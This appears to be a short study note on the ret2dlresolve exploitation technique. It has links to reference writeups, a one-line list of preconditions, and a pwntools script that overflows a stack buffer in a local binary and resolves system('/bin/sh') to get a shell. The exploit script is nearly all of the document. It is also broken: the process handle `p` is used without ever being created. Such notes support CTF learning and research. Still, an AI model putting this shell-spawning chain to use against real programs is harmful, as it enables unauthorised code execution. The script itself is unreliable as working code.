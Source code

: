 # ret2dlresolve

- [ir0nstone gitbook](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2dlresolve)
- [Phrack](https://phrack.org/issues/58/4.html)
- [0ctf babystack](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)

When `NX is enabled`, `ASLR`, is dynamically linked, have `read` on the PLT.

## Exploit code 
```python
from pwn import *
import time

context.log_level = 'DEBUG'
context(os='linux', arch='amd64')
context.binary = elf = ELF('./vuln')
glibc = elf.libc
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * (64 + 8))
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
p.sendline(rop.chain())
p.sendline(dlresolve.payload)

p.interactive()
```
